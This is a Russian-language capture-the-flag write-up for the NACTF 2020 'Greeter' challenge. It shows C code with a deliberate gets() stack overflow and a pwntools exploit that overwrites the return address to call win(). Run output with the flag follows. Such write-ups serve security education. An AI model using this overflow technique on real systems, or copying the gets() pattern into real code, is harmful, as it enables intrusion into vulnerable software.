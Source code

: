 # Greeter writeup

Вначале изучим предоставленный в таске исходный код исполняемого файла:

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    puts("congrats! here's your flag:");
    char flagbuf[64];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL) {
       puts("flag file not found!");
       exit(1);
    }
    fgets(flagbuf, 64, f);
    fputs(flagbuf, stdout);
    fclose(f);
}

int main() {
    /* disable stream buffering */
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char name[64];

    puts("What's your name?");
    gets(name);
    printf("Why hello there %s!\n", name);

    return 0;
}
```

Нашей целью будет являться вызов функции `win` на удалённом сервере, в которой происходит чтение файла с флагом. 

Как мы видим, в коде используется уязвимая функция `gets`, считывающая данные до символа переноса строки и, следовательно, позволяющая нам переполнить выделенный буфер.

Эксплуатацию уязвимости переполнения буфера на стеке будем производить в два этапа:
- сначала переполняем буфер до адреса возврата (отправляем в бинарный файл `72` байта мусора, так как под буфер `name` выделено `64` байта, а между буфером и указателем возврата на стеке находится только сохранённый регистр `RBP`);
- затем перезаписываем указатель вовзрата на адрес функции `win`, тем самым вызывая её выполнение.

Воспользуемся модулем `pwntools` для написания эксплойта:

```python3
#/usr/bin/env python3
from pwn import *

elf = ELF("./greeter")

p = remote("challenges.ctfd.io", 30249)

payload = b'A' * 72
payload += p64(elf.symbols['win']) # 0x401220

p.sendlineafter('\n', payload)
p.interactive()
```

Запускаем эксплойт:

```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter$ python3 greeter_exploit.py
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter/greeter'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30249: Done
[*] Switching to interactive mode
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \x12!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}
[*] Got EOF while reading in interactive
$
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter
```
